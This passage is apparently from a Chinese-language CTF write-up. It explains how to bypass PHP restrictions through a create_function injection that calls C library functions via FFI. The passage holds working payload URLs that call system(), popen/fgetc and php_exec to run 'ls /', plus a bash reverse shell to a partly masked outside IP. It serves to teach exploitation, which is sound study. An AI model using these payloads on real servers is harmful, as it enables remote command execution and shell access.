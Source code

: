 #### 利用 FFI 调用 C 库的 system 函数

我们首先尝试调用 C 库的 system 函数：

```
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("int system(const char *command);");$ffi->system("ls / > /tmp/res.txt");echo file_get_contents("/tmp/res.txt");/*
```

C 库的 system 函数执行是没有回显的，所以需要将执行结果写入到 tmp 等有权限的目录中，最后再使用 `echo file_get_contents("/tmp/res.txt");` 查看执行结果即可。

但是这道题执行后却发现有任何结果，可能是我们没有写文件的权限。尝试反弹 shell：

```
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("int system(const char *command);");$ffi->system('bash -c "bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1"')/*
```

但这里也失败了，可能还是权限的问题。所以，我们还要找别的 C 库函数。

#### 利用 FFI 调用 C 库的 popen 函数

C 库的 system 函数调用 shell 命令，只能获取到 shell 命令的返回值，而不能获取 shell 命令的输出结果，如果想获取输出结果我们可以用 popen 函数来实现：

```
FILE *popen(const char* command, const char* type);
```

popen() 函数会调用 fork() 产生子进程，然后从子进程中调用 /bin/sh -c 来执行参数 command 的指令。

参数 type 可使用 "r" 代表读取，"w" 代表写入。依照此 type 值，popen() 会建立管道连到子进程的标准输出设备或标准输入设备，然后返回一个文件指针。随后进程便可利用此文件指针来读取子进程的输出设备或是写入到子进程的标准输入设备中。

所以，我们还可以利用 C 库的 popen() 函数来执行命令，但要读取到结果还需要 C 库的 fgetc 等函数。payload 如下：

```
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("void *popen(char*,char*);void pclose(void*);int fgetc(void*);","libc.so.6");$o = $ffi->popen("ls /","r");$d = "";while(($c = $ffi->fgetc($o)) != -1){$d .= str_pad(strval(dechex($c)),2,"0",0);}$ffi->pclose($o);echo hex2bin($d);/*
```

成功执行命令：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9ykyqOdflhqvdznicLhY6PDEaOQvft3bbM9EHkPtE9ibPtEmRjwnab9W26obXFzsT7aPmwF1fD4M2A/640?wx_fmt=png)image-20210131194502090

#### 利用 FFI 调用 PHP 源码中的函数

其次，我们还有一种思路，即 FFI 中可以直接调用 php 源码中的函数，比如这个 php_exec() 函数就是 php 源码中的一个函数，当他参数 type 为 3 时对应着调用的是 passthru() 函数，其执行命令可以直接将结果原始输出，payload 如下：

```
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("int php_exec(int type, char *cmd);");$ffi->php_exec(3,"ls /");/*
```

成功执行命令：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9ykyqOdflhqvdznicLhY6PDEXvNicJlgpBKPmrcmYicAVtl3CiahMEvbN9PkFsNEdhaOR695Aib8jFubw/640?wx_fmt=png)image-20210131195536257
